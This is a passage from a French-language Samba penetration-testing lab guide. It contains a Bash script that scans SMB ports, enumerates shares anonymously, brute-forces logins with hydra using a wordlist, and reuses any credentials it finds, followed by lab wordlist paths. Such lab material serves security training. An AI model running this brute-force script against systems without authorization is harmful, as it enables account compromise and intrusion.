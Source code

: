 ```python

# Utilisation
exploiter = SambaExploiter(sys.argv[1])
```

### Script Bash pour énumération complète
```bash
#!/bin/bash
# samba_full_recon.sh

TARGET=$1
USERLIST="admin jane nancy shawn guest"
PASSLIST="/usr/share/wordlists/metasploit/unix_passwords.txt"

echo "[*] Starting Samba reconnaissance on $TARGET"

# Phase 1: Port scanning
echo "[+] Scanning SMB ports..."
nmap -p 139,445 -sV $TARGET

# Phase 2: Anonymous enumeration
echo "[+] Testing anonymous access..."
smbclient -L $TARGET -N
enum4linux -S $TARGET

# Phase 3: Brute force attack
echo "[+] Starting brute force..."
for user in $USERLIST; do
    echo "Testing user: $user"
    hydra -l $user -P $PASSLIST $TARGET smb -t 4 -f
done

# Phase 4: Enumeration with found credentials
echo "[+] Enumerating with valid credentials..."
if [ -f "found_creds.txt" ]; then
    while IFS=':' read -r user pass; do
        echo "Enumerating with $user:$pass"
        smbmap -H $TARGET -u $user -p $pass
        enum4linux -u $user -p $pass -a $TARGET
    done < found_creds.txt
fi
```

---

## Phase 11: Wordlists et dictionnaires

### Wordlists du lab
```bash
# Metasploit (utilisées dans le lab)
/usr/share/wordlists/metasploit/unix_passwords.txt
/usr/share/wordlists/metasploit/common_users.txt
/usr/share/wordlists/metasploit/common_passwords.txt

# RockYou (utilisée dans le lab)
/usr/share/wordlists/rockyou.txt  # Après décompression
```
